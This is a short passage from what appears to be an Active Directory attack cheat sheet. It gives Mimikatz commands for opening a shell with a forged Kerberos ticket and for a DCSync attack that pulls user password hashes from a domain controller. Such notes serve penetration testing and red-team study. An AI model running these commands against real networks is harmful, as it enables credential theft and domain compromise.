 Launch a new cmd prompt through Mimikatz to use the forged ticket:

```
misc::cmd
```

### DCSync

Goal: use Directory Replication Service Remote Protocol to retrieve users hashes

Retrieve a specific user hash, using Mimikatz:

```
lsadump::dcsync /user:<username>
```
